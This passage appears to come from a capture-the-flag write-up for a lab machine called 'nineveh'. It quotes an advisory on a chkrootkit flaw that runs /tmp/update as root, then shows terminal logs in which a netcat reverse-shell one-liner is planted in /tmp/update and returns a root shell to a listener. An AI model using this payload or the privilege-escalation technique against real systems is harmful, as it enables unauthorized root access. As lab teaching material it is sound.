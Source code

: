 ```33899.txt```
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.


Suggested fix: Put quotation marks around the assignment.

file_port="$file_port $i"


I will also try to contact upstream, although the latest version of
chkrootkit dates back to 2009 - will have to see, if I reach a dev there.
```

```sh
www-data@nineveh:/var/tmp$ cd /tmp/
www-data@nineveh:/tmp$ ls -l
total 8
prw-r--r-- 1 www-data www-data    0 Jan 26 03:00 f
drwx------ 3 root     root     4096 Jan 25 14:23 systemd-private-384cb10c9b4645d6aac4de494d2d8152-systemd-timesyncd.service-aUCcFS
drwx------ 2 root     root     4096 Jan 25 14:23 vmware-root
www-data@nineveh:/tmp$ cat update
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f
www-data@nineveh:/tmp$ sed 's/tmp\/f/tmp\/i/g' update -i
www-data@nineveh:/tmp$ cat update
#!/bin/bash

rm /tmp/i;mkfifo /tmp/i;cat /tmp/i|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/i
www-data@nineveh:/tmp$
www-data@nineveh:/tmp$ chmod +x update
www-data@nineveh:/tmp$ cd /var/tmp/
www-data@nineveh:/var/tmp$ ./procmon.sh
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
> /bin/bash /tmp/update
> cat /tmp/i
> /bin/sh -i
> nc 10.10.14.6 1234
```

```sh
root@kali:~/nineveh# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.43] 47148
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
root.txt
vulnScan.sh
#
```
